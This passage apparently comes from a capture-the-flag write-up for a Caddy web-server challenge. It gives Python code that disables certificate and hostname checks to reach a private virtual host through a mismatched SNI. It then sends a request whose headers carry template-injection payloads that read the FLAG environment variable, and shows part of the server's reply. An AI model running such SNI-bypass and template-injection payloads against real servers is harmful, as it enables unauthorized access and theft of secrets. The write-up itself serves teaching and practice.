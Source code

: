 ```python
sock.settimeout(10)  # 10 second timeout

# Wrap socket with SSL
ssl_sock = context.wrap_socket(sock, server_hostname=sni_hostname)

try:
    # Connect to server
    ssl_sock.connect((server_host, server_port))
    
    # Send HTTP request
    ssl_sock.send(request_content.encode() + b'\r\n')
    
    # Receive response
    response = b''
    while True:
        chunk = ssl_sock.recv(4096)
        if not chunk:
            break
        response += chunk
    
    # Print response
    print(response.decode('utf-8', errors='ignore'))

except Exception as e:
    print(f"Error: {e}")

finally:
    # Close the connection
    ssl_sock.close()
```

This creates a socket connection to the server, wraps the socket in an SSL context, specially configured to allow us to not match the hostname and skip certificate verification, sets the SNI hostname to the public host, and sends the request. 

The request is as follows:
```
GET /fetch/headers HTTP/1.1
Host: private.caddy.chal-kalmarc.tf
User-Agent: Mozilla/5.0 
Accept: */*
Connection: close
intended_exploit: {{ env `FLAG`}}
goofy_exploit: {{ .Req.Header.Flag | toString  | substr 1 5 | env}}
flag: FLAG

```
This request targets the /fetch/headers endpoint on the private host, and includes the template injection exploit in the goofy_exploit header. The intended_exploit header is included as well.

By running this script, when we have the server running locally, we get the following output:
```
{
  "Accept": [
    "*/*"
  ],
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ],
  "Connection": [
    "close"
  ],
```